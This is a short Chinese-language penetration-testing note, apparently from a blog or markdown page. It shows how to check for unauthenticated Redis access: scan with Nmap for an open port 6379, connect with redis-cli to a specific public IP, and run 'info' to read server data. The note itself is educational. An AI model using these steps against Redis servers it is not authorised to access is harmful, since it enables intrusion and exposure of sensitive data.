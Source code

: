 Redis未授权访问验证、获取敏感信息

- Nmap扫描后发现主机的6379端口对外开放，就可以用本地Redis远程连接服务
- （redis在开放往外网的情况下，默认配置下是空口令，端口为6379）连接后可以获取Redis敏感数据。

```
./redis-cli -h 101.43.121.119
```

![image-20220120193200700](https://gitee.com/xxb667/img/raw/master/img/image-20220120193200700.png)

### 查看敏感信息

```
info
```

![image-20220120193249560](https://gitee.com/xxb667/img/raw/master/img/image-20220120193249560.png)
